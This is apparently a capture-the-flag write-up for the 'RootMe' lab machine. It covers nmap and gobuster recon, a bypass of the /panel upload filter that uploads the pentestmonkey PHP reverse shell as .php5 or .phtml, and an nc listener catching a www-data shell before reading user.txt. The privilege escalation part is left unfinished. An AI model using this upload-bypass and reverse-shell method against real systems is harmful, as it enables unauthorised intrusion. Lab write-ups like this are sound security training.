 ## Target info
10.10.182.156

## Missions
- Root the target and find a flag in user.txt
- Escalate privileges and find a flag in root.txt 

## Performance
### Recon

    root@ip-10-10-91-11:~# nmap -sV -sC 10.10.182.156
    Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-30 10:52 BST
    Nmap scan report for 10.10.182.156
    Host is up (0.00080s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
    |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
    |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: HackIT - Home
    MAC Address: 02:67:2F:32:47:6F (Unknown)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.02 seconds
    root@ip-10-10-91-11:~# 

###  Root the target and find a flag in user.txt
Find directories on the web server using the GoBuster tool and discover the hidden directory

    root@ip-10-10-91-11:~# gobuster dir -u http://10.10.182.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgo,html,js,css,py
    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.182.156
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              html,js,css,py,php,sh,txt,cgo
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /.html                (Status: 403) [Size: 278]
    /.php                 (Status: 403) [Size: 278]
    /index.php            (Status: 200) [Size: 616]
    /uploads              (Status: 301) [Size: 316] 
    /css                  (Status: 301) [Size: 312] [--> http://10.10.182.156/css/]
    /js                   (Status: 301) [Size: 311] [--> http://10.10.182.156/js/]
    /panel                (Status: 301) [Size: 314] [--> http://10.10.182.156/panel/]

The hidden directory is /panel/

Reverse shell 🐚 Upload

1. **Generate Reverse Shell**
   - Visit: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
   - Download and extract the php reverse shell .gz
   - Save the shell as `shell.php5` or `shell.phtml` (avoid `.php` as it's blocked).
   - Change the following info in the shell
   
            ip [myip]
            port [9999]

3. **Upload Shell**
   - Go to: `http://10.10.182.156/panel`
   - Upload your renamed shell file.

4. **Start Listener**

        root@ip-10-10-91-11:~# nc -lvnp 9999
        Listening on 0.0.0.0 9999
        Connection received on 10.10.182.156 47768
        Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
         13:31:12 up 17 min,  0 users,  load average: 0.00, 0.03, 0.09
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        /bin/sh: 0: can't access tty; job control turned off
        $
   
Find the flag in user.txt

        $ find file ./* | grep "user.txt"
        ...
        ./var/www/user.txt
        $ cat ./var/www/user.txt
        
The result of the cat command will show the flag!

### Escalate privileges and find a flag in root.txt

(To be continued)



